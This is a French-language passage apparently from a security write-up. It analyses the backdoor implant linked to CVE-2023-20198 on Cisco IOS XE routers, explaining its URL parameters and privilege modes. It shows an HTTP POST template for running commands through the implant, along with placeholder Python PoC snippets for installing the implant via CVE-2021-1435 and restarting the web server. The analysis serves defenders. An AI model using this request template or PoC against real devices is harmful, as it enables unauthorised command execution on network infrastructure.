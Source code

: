 Ce code agit comme une porte dérobée pour revenir plus facilement :

1. La première condition `if(params["menu"])` traite le paramètre `menu` dans l'url. Elle renvoie une chaîne de chiffres surement indiquant la version de la backdoor.
2. La deuxième condition en dessous traite le paramètre `logon_hash` devant être égal à `1`. Ce paramètre renvoie une chaîne hexadécimale de 18 caractères écrite dans l'implant.
3. La troisième condition utilise aussi le paramètre `logon_hash` et vérifie que le paramètre correspond bien à une chaîne hexadécimale de **40 caractères** écrite en dur dans l'implant (mot de passe). Si cette condition est validée, l'implant vérifie qu'un argument `common_type=subsystem` est bien présent dans l'url.

Ici l'implant est en mesure d'exécuter du code de deux manières :

1. D'une première façon avec les **privilèges systèmes actuels** de l'implant avec l'argument `common_type=subsystem`.
2. D'une deuxième façon avec les **privilèges administrateurs 15** avec l'argument `common_type=iox`.

Pour résumé, l'appel à l'implant s'effectue avec la requête `POST` suivante :

```
POST /webui/logoutconfirm.html?logon_hash=<mot_de_passe_implant>&common_type=subsystem HTTP/1.1
Host: host
Content-Type: application/x-www-form-urlencoded
Content-Length: X
Accept: */*

<commande à exécuter>
```

Selon plusieurs sources, l'installation de l'implant reste encore incompris. Il existe plusieurs pistes comme nottament l'utilisation de la vulnérabilité `CVE-2021-1435` décrite dans le PoC.

```py
# Exploit CVE-2021-1435 to install the implant
install_url = f"https://target.com/webui/cisco_service.conf"
config_content = "<insert implant configuration content here>"

config_payload = {
    "config_content": config_content
}

response = requests.post(install_url, data=config_payload, verify=False)
```

Cette vulnérabilité est corrigée et indépendante de la vulnérabilité `CVE-2023-20198` : https://www.cisco.com/c/en/us/support/docs/csa/cisco-sa-iosxe-webcmdinjsh-UFJxTgZD.html

Il est probable que les attaquants déposent leur implant à l'aide du compte administrateur créée.

### 3. Redémarrage du service

Selon le PoC, il serait nécessaire de redémarrer le service pour enregistrer la configuration de l'implant.

```py
# Restart the web server to activate the implant
restart_url = "https://target.com/webui/restart_server"

response = requests.post(restart_url, verify=False)
```
